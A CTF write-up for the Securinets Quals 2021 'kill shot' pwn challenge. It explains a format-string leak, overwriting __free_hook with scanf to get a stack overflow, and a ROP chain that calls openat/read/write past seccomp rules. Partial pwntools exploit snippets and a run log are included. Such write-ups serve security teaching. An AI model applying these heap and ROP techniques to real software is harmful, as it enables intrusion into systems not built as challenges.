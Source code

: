 ```yaml
---
layout: post
title: Securinets CTF Quals 2021 - kill shot [pwn]
author: hugsy
tags: [pwn, elf64, formatstring, heap]
date: 2021-03-21 20:54 
---
```


 * Competition: [Securinets CTF Quals 2021](https://www.ctfsecurinets.com/challenges)
 * Challenge Name: kill shot
 * Type: pwn
 * Points: 1000 pts
 * Description: 
 > Let's learn some exploitation!
 >

<!--more-->

## Reconnaissance

`kill_shot` is a small ELF64 with all traditional mitigations enabled.
```
$ checksec ./kill_shot
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

In addition, a quick look at the disassembly shows it loads restrictive seccomp rules early in the `main`, which we can dump using [seccomp-tools](https://github.com/david942j/seccomp-tools):
```
$ seccomp-tools dump ./kill_shot
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000005  if (A == fstat) goto 0010
 0008: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0010
 0009: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```
Only a handful of syscalls are allowed (no `execve` and the like), but enough to read the flag and get it back. This is important mostly for the payload building part, but we're not there yet.
Finally, the challenge gives us the following hint:
```
flag is in /home/ctf/flag.txt
```

## Overview

The runtime operates in 3 steps:
 1. Step 1 gives us a controlled format string after making sure we can't use `%n` to write to arbitrary locations. It is however sufficient to leak everything else we need (libc pointers, exe mapped pointers, etc.) to defeat ASLR.
 2. Step 2 gives a totally arbitray write: we can overwrite 8 bytes at any location of our choosing
 3. Step 3 (last) offers some very basic heap manipulation: we can either 
    - create new chunks of controlled size and write the content (i.e. `malloc`+`read`)
    - free those chunks (i.e. `free`)

There's no bug is the allocation/free part (such as heap overflow, double free, etc.) and we can only have a maximum of 9 `malloc`-ed chunks.


## Exploit

My original idea was that, since `mprotect` is allowed, the intended purpose is to gain code execution via the arbitrary write, and `mprotect` as `rwx` the heap, when our shellcode would be sitting, doing the typical (`sys_open`, `sys_read`, `sys_write`).
After wasting a few hours on this, I went a totally different way: we can abuse the fact that `malloc` and `free` can be called on demand, to trigger some function to be called as we wish, and with a pointer to a location we control the content, via the `__malloc_hook` and `__free_hook` function pointers.
The issue with the current arbitrary write, is that it allows to gain quickly arbitrary code execution but with little to no control over the rest (registers, stack). So I decided to use `scanf` as target of my arbitrary overwrite, `scanf` is a perfect candidate since we fully control the format string all we need to find is a stack pointer and write a "%s" at that offset. This would have for effect to change our arbitrary write into a stack overflow (and no canary please).

After a few tests, the 4th offset was a good candidate (i.e. `scanf("%4$s")`), and we fully control $pc and the stack.

![image](https://user-images.githubusercontent.com/590234/111921156-3d931c00-8a50-11eb-8bb0-e1576f72028b.png)

The rest was simply find gadgets from the binary and the libc, enough to open, read the flag file, and write it to stdout.

So to recap, the exploit flow was:
1. use the format string to leak elf base, libc base
2. use the arb, write to overwrite `__free_hook` with `scanf`
```python
    addr = libc.symbols["__free_hook"]
    r.sendafter(b"Pointer: ", str(addr))
    r.sendafter(b"Content: ", p64(libc.symbols["scanf"]))
```
3. allocate a chunk with "%s" inside and free it to trigger a stack bof
```python
    if LOCAL:
        alloc(r, b"/tmp/flag.txt\0", 0x100) # 0
    else:
        alloc(r, b"/home/ctf/flag.txt\0", 0x100) # 0
    alloc(r, b"%4$s") # 1
    free(r, 1)
```

4. now we have a regular stack bof
```python
    rop = flat([
        [...]
        p64(libc.symbols["openat"]),
        [...]
        p64(libc.symbols["read"]),
        [...]
        p64(libc.symbols["write"]),
    ])        
```

When done, we can remotely read the flag:

```bash
$ ./xp.py remote
[+] Opening connection to bin.q21.ctfsecurinets.com on port 1338: Done
[*] step 1: leak stuff
[+] leaked addresses:
0x563765daa240
0x563765da9b10
0x7ffd0d86b5e0
0x169ebea30560a000
0x563765daa240
0x7f85cf4adb97
[+] found elf at 563765da9000
[+] found libc at 7f85cf48c000
[*] step 2: overwrite __free_hook with scanf
[+] overwritten __free_hook
[*] step 3: trigger stack overflow
[*] Switching to interactive mode
flag{this_really_needs_a_kill_shot!_cc5dcc74acd62fa74899efaff22d8f79}\x00\x00\x00\x00\x00\x00\x00\x00
```

My full exploit can be found [here](https://gist.github.com/hugsy/3dae779cf60eb3ecdbe64749855d62cc).
